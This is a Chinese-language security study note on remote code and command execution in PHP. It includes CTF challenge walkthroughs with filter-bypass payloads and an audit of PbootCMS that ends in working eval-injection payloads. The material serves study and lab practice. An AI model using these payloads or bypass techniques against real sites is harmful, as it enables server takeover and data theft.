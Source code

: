 ![1647234059735-b1e022a1-59b7-4ee8-bc21-ed6da80e16ca.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913103457281-893193577.png)

```plain
#知识点：
1、RCE执行-代码执行&命令执行
2、CTF考点-漏洞配合&绕过手法
3、利用审计-CMS框架&中间件等

#详细点：
1.为什么会产生此类安全问题
2.此类安全问题探针利用及危害
3.此类安全问题在CTF即CMS分析
漏洞场景：代码会调用自身的脚本代码执行，也会调用系统命令执行
漏洞区别：脚本语言&操作系统(php/java/python/js&windows/linux/mac)
漏洞对象：WEB源码&中间件&其他环境（见漏洞详情对象）
漏洞危害：直接权限丢失,可执行任意脚本代码或系统命令
```

- RCE-原理&探针&利用&危害等

------

```plain
RCE指两方面：代码执行和命令执行
举例:
<?php
//eval代码执行
eval('phpinfo();');
//system命令执行
system('ipconfig');
?>
-RCE代码执行：引用脚本代码解析执行
-RCE命令执行：脚本调用操作系统命令
访问：http://127.0.0.1:8081/web/rce.php
```

![1647234462942-9c4d66ae-a2d6-4418-998c-38a744269c54.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913103513286-1845016967.png)

```plain
漏洞函数：
1.PHP：
eval()、assert()、preg_replace()、call_user_func()、call_user_func_array()以及array_map()等
system、shell_exec、popen、passthru、proc_open等
2.Python：
eval exec subprocess os.system commands 
3.Java：
Java中没有类似php中eval函数这种直接可以将字符串转化为代码执行的函数，
但是有反射机制，并且有各种基于反射机制的表达式引擎，如: OGNL、SpEL、MVEL等.
探针与发现：
在黑盒中探针这种漏洞几乎是很少几率，功能的实现不知道有没有引用这种函数，而且如果引用的话也不知道怎么去测试。
大部分安全测试是通过白盒，或者别人给出来的漏洞报告。
```

- CTF-29~39-RCE代码命令执行

------

29

```plain
代码：
error_reporting(0); 
if(isset($_GET['c'])){ 
    $c = $_GET['c']; 
    if(!preg_match("/flag/i", $c)){ 
        eval($c); 
    } 
     
}else{ 
    highlight_file(__FILE__); 
}

过滤了flag，可以同通配符进行绕过：system('tac fla*.php');
```

30

```plain
代码：
error_reporting(0); 
if(isset($_GET['c'])){ 
    $c = $_GET['c']; 
    if(!preg_match("/flag|system|php/i", $c)){ 
        eval($c); 
    } 
     
}else{ 
    highlight_file(__FILE__); 
}
过滤了flag,system,php等可以通过取代函数&通配符&管道符
c=echo shell_exec('tac fla*');
c=`cp fla*.ph* 2.txt`;   访问2.txt
```

31

```plain
代码：
error_reporting(0); 
if(isset($_GET['c'])){ 
    $c = $_GET['c']; 
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'/i", $c)){ 
        eval($c); 
    } 
     
}else{ 
    highlight_file(__FILE__); 
}
过滤的更多，可以用到参数逃逸，对c参数过滤，我们可以使用1参数来进行传参
c=eval($_GET[1]);&1=system('tac flag.php');
```

32-36

```plain
代码：
error_reporting(0); 
if(isset($_GET['c'])){ 
    $c = $_GET['c']; 
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(/i", $c)){ 
        eval($c); 
    } 
     
}else{ 
    highlight_file(__FILE__); 
}

配合包含&伪协议
include$_GET[a]?>&a=data://text/plain,<?=system('tac flag.php');?>
include$_GET[a]?>&a=php://filter/read=convert.base64-encode/resource=flag.php
```

37-39

```plain
代码：
error_reporting(0); 
if(isset($_GET['c'])){ 
    $c = $_GET['c']; 
    if(!preg_match("/flag/i", $c)){ 
        include($c); 
        echo $flag; 
     
    } 
         
}else{ 
    highlight_file(__FILE__); 
}
包含&伪协议&通配符
data://text/plain,<?=system('tac fla*');?>
php://input post:<?php system('tac flag.php');?>
```

- CMS-PbootCMS审计-RCE执行

------

```plain
搜索代码执行的特定函数（功能点比较难找）eval
```

![1647236568801-c6eb5576-b309-433e-9dfa-5cf0ed91f638.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913103513803-147563177.png)

```plain
找到调用函数的代码：  eval('if(' . $matches[1][$i] . '){$flag="if";}else{$flag="else";}');
文件是在apps\home\controller\ParserController.php上 这个源码应该是框架对应的源码，URL和文件对应访问是要弄清楚触发方法和访问路由的。
找到变量matches
```

![1647237199005-13cfa4e3-44e8-4310-8887-64e41150979c.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913103513427-1628414678.png)

```plain
这个意思是通过$content来控制$matches，通过匹配来产生结果，然后在后面执行eval，函数：preg_match_all是通过$pattern和$content匹配产生$matches
那么继续追踪谁调用了parserIfLabel这个方法，很明显这个是类的写法，在类class ParserController extends Controller里面，谁创建了ParserController这个对象，就会调用eval函数。

全局搜索parserIfLabel函数
```

![1647237524945-e2842769-5c1c-4f5a-8235-40214d9b1b73.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913103513872-1915817514.png)

```plain
其实这个就是自己引用他。那么继续跟踪谁调用了parserCommom
```

![1647238063028-59d188a2-1e70-4959-b245-18a15dcfcea9.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913103513317-9133233.png)

```plain
打开apps\home\controller\AboutController.php中
```

![1647238392192-71a78f15-0809-438f-a6ce-a316ff8406ff.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913103513551-371073862.png)

```plain
那么这个文件应该怎么访问呢？
访问http://127.0.0.1:8112/index.php/list/2.html这个地址，对应的文件在哪里呢？
对应的文件应该是apps\home\controller\ListController.php文件

那么同理，访问http://127.0.0.1:8112/index.php/about/10.html这个地址对应的文件应该是apps\home\controller\AboutController.php
继续分析，在前端代码是怎么接受数据的，查看表单值，内容中的变量是content
```

![1647238927632-17e010e6-d403-44c8-88aa-d54425187d42.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913103513440-1505532291.png)

```plain
留言，登录后台，显示留言
构造payload：
AboutController：{pboot:if(eval($_POST[1]))}!!!{/pboot:if}
ContentController：/index.php/Content/2?keyword={pboot:if(eval($_REQUEST[1]));//)})}}{/pboot:if}&1=phpinfo();

整体流程：搜索特定函数->parserIfLabel->parserCommom->About&Content->构造
```

- 层面-探针-语言&CMS&中间件等

------

```plain
集成化的平台：http://vulfocus.io/  Shiro weblogic 登录激活就可以使用
集成化工具：G:\xiaoditools2\044-CMS源码&工具集合箱等\GUI_TOOLS_V6.1_by安全圈小王子--bugfixed
```